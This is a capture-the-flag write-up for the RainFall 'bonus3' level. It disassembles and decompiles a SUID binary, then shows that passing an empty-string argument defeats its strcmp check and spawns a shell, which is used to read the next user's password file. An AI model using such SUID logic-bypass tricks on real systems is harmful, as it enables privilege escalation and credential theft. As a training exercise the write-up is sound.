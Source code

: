 # Bonus 3





```sh
(gdb) info func
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  strcmp
0x080483b0  strcmp@plt
0x080483c0  fclose
0x080483c0  fclose@plt
0x080483d0  fread
0x080483d0  fread@plt
0x080483e0  puts
0x080483e0  puts@plt
0x080483f0  __gmon_start__
0x080483f0  __gmon_start__@plt
0x08048400  __libc_start_main
0x08048400  __libc_start_main@plt
0x08048410  fopen
0x08048410  fopen@plt
0x08048420  execl
0x08048420  execl@plt
0x08048430  atoi
0x08048430  atoi@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  main
0x08048620  __libc_csu_init
0x08048690  __libc_csu_fini
0x08048692  __i686.get_pc_thunk.bx
0x080486a0  __do_global_ctors_aux
0x080486cc  _fini
(gdb) 
```

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	push   edi
   0x080484f8 <+4>:	push   ebx
   0x080484f9 <+5>:	and    esp,0xfffffff0
   0x080484fc <+8>:	sub    esp,0xa0
   0x08048502 <+14>:	mov    edx,0x80486f0
   0x08048507 <+19>:	mov    eax,0x80486f2
   0x0804850c <+24>:	mov    DWORD PTR [esp+0x4],edx
   0x08048510 <+28>:	mov    DWORD PTR [esp],eax
   0x08048513 <+31>:	call   0x8048410 <fopen@plt>
   0x08048518 <+36>:	mov    DWORD PTR [esp+0x9c],eax
   0x0804851f <+43>:	lea    ebx,[esp+0x18]
   0x08048523 <+47>:	mov    eax,0x0
   0x08048528 <+52>:	mov    edx,0x21
   0x0804852d <+57>:	mov    edi,ebx
   0x0804852f <+59>:	mov    ecx,edx
   0x08048531 <+61>:	rep stos DWORD PTR es:[edi],eax
   0x08048533 <+63>:	cmp    DWORD PTR [esp+0x9c],0x0
   0x0804853b <+71>:	je     0x8048543 <main+79>
   0x0804853d <+73>:	cmp    DWORD PTR [ebp+0x8],0x2
   0x08048541 <+77>:	je     0x804854d <main+89>
   0x08048543 <+79>:	mov    eax,0xffffffff
   0x08048548 <+84>:	jmp    0x8048615 <main+289>
   0x0804854d <+89>:	lea    eax,[esp+0x18]
   0x08048551 <+93>:	mov    edx,DWORD PTR [esp+0x9c]
   0x08048558 <+100>:	mov    DWORD PTR [esp+0xc],edx
   0x0804855c <+104>:	mov    DWORD PTR [esp+0x8],0x42
   0x08048564 <+112>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804856c <+120>:	mov    DWORD PTR [esp],eax
   0x0804856f <+123>:	call   0x80483d0 <fread@plt>
   0x08048574 <+128>:	mov    BYTE PTR [esp+0x59],0x0
   0x08048579 <+133>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804857c <+136>:	add    eax,0x4
   0x0804857f <+139>:	mov    eax,DWORD PTR [eax]
   0x08048581 <+141>:	mov    DWORD PTR [esp],eax
   0x08048584 <+144>:	call   0x8048430 <atoi@plt>
   0x08048589 <+149>:	mov    BYTE PTR [esp+eax*1+0x18],0x0
   0x0804858e <+154>:	lea    eax,[esp+0x18]
   0x08048592 <+158>:	lea    edx,[eax+0x42]
   0x08048595 <+161>:	mov    eax,DWORD PTR [esp+0x9c]
   0x0804859c <+168>:	mov    DWORD PTR [esp+0xc],eax
   0x080485a0 <+172>:	mov    DWORD PTR [esp+0x8],0x41
   0x080485a8 <+180>:	mov    DWORD PTR [esp+0x4],0x1
---Type <return> to continue, or q <return> to quit---
   0x080485b0 <+188>:	mov    DWORD PTR [esp],edx
   0x080485b3 <+191>:	call   0x80483d0 <fread@plt>
   0x080485b8 <+196>:	mov    eax,DWORD PTR [esp+0x9c]
   0x080485bf <+203>:	mov    DWORD PTR [esp],eax
   0x080485c2 <+206>:	call   0x80483c0 <fclose@plt>
   0x080485c7 <+211>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485ca <+214>:	add    eax,0x4
   0x080485cd <+217>:	mov    eax,DWORD PTR [eax]
   0x080485cf <+219>:	mov    DWORD PTR [esp+0x4],eax
   0x080485d3 <+223>:	lea    eax,[esp+0x18]
   0x080485d7 <+227>:	mov    DWORD PTR [esp],eax
   0x080485da <+230>:	call   0x80483b0 <strcmp@plt>
   0x080485df <+235>:	test   eax,eax
   0x080485e1 <+237>:	jne    0x8048601 <main+269>
   0x080485e3 <+239>:	mov    DWORD PTR [esp+0x8],0x0
   0x080485eb <+247>:	mov    DWORD PTR [esp+0x4],0x8048707
   0x080485f3 <+255>:	mov    DWORD PTR [esp],0x804870a
   0x080485fa <+262>:	call   0x8048420 <execl@plt>
   0x080485ff <+267>:	jmp    0x8048610 <main+284>
   0x08048601 <+269>:	lea    eax,[esp+0x18]
   0x08048605 <+273>:	add    eax,0x42
   0x08048608 <+276>:	mov    DWORD PTR [esp],eax
   0x0804860b <+279>:	call   0x80483e0 <puts@plt>
   0x08048610 <+284>:	mov    eax,0x0
   0x08048615 <+289>:	lea    esp,[ebp-0x8]
   0x08048618 <+292>:	pop    ebx
   0x08048619 <+293>:	pop    edi
   0x0804861a <+294>:	pop    ebp
   0x0804861b <+295>:	ret    
End of assembler dump.
(gdb)
```


This one is also kind heavy.


```sh
bonus3@RainFall:~$ ./bonus3 
bonus3@RainFall:~$ ./bonus3 kik

bonus3@RainFall:~$ ./bonus3 kiklll

bonus3@RainFall:~$ ./bonus3 kiklll lol
bonus3@RainFall:~$ ./bonus3 kiklll lol lol
bonus3@RainFall:~$
```
When there is one argument it prints a '\n'.



```c
undefined4 main(int param_1,int param_2)
{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  byte bVar4;
  undefined4 local_98 [16];
  undefined local_57;
  char local_56 [66];
  FILE *local_14;
  
  bVar4 = 0;
  local_14 = fopen("/home/user/end/.pass","r");
  puVar3 = local_98;
  for (iVar2 = 0x21; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + (uint)bVar4 * -2 + 1;
  }
  if ((local_14 == (FILE *)0x0) || (param_1 != 2)) {
    uVar1 = 0xffffffff;
  }
  else {
    fread(local_98,1,0x42,local_14);
    local_57 = 0;
    iVar2 = atoi(*(char **)(param_2 + 4));
    *(undefined *)((int)local_98 + iVar2) = 0;
    fread(local_56,1,0x41,local_14);
    fclose(local_14);
    iVar2 = strcmp((char *)local_98,*(char **)(param_2 + 4));
    if (iVar2 == 0) {
      execl("/bin/sh","sh",0);
    }
    else {
      puts(local_56);
    }
    uVar1 = 0;
  }
  return uVar1;
}
```


The program opens the last password, but also execute a shell, when certain condition ar met.

We will take the first open door we see.

After reviewing the code, the program actually do an atoi on av[1] lets try overflowing with big or negative integer.

Using GDB is quite hard here, the program opens a file that only the 'end' user can access, and since binary is SUID, using a debugger will quit the program since it quit if it doesn't succeed at opening the file.

So the only way to test our input is to edit the file the program is trying to access, we are to give it our own like this :


```sh
(gdb) br *main+28
Breakpoint 1 at 0x8048510
(gdb) run l
Starting program: /home/user/bonus3/bonus3 l

Breakpoint 1, 0x08048510 in main ()
(gdb) p $eax
$1 = 134514418
(gdb) x/s $eax
0x80486f2:	 "/home/user/end/.pass"
(gdb) set $eax = "/tmp/fichier"
(gdb) p $eax
$2 = 134520840
(gdb) continue
Continuing.

[Inferior 1 (process 4954) exited normally]
```

From there we can test our input.


After test we realise a few things.


The local_98 actually has the file result, it then does an atoi on av[1] and use the result to put a '\0' in local_98.

So if we give him 0, it will do that : 

```c
local_98[0] = '\0'
```

It then use strcmp to compare the same av[1] with local_98.

So in our case its doing this :

```c
strcmp("", '0');
```

If that result goes to 0 we get our shell, but since 0 is equal to 48 in decimal..

We can give him an empty string, so that atoi return 0, and it will compare "" with "".


```sh
bonus3@RainFall:~$ ./bonus3 ""
$
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

And that's the end of the CTF !

